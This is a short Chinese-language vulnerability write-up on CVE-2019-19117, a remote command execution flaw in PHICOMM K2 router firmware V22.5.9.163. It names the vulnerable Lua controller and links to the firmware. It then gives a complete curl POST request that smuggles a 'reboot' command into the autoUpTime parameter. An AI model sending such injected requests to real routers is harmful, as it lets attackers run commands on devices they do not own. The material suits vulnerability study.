

学习参考

```
https://wiki.96.mk/IOT%E5%AE%89%E5%85%A8/PHICOMM/%EF%BC%88CVE-2019-19117%EF%BC%89PHICOMM%20%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C/
```


# 1. 漏洞简介

> 通过修改HTTP post请求中的内容，在根shell上远程执行命令。

# 2. 漏洞影响

漏洞影响版本：

`PHICOMM K2(PSG1218) V22.5.9.163`

漏洞版本固件下载：

```
https://github.com/mayunbaba2/K2/blob/master/k2_163_org.rar
```


# 3. 漏洞分析

`usr/lib/lua/luci/controller/admin/autoupgrade.lua`

中的`save`函数。



而且这个`time`就是来自http的请求参数`autoUpTime`，所以利用起来也很简单。

```bash
curl -i -s -k -v -X'POST'  -e "http://192.168.2.1/cgi-bin/luci/;stok=xxx/xxx/xxx/xxx" -b "sysauth=4a2c4bdba5fb1273ce62759fd42dba42" --data-binary "mode=1&autoUpTime=02%3A05|reboot" 'http://192.168.2.1/cgi-bin/luci/;stok=xxx/admin/xxx/xxx/xxx'
```

这就可以造成DoS攻击。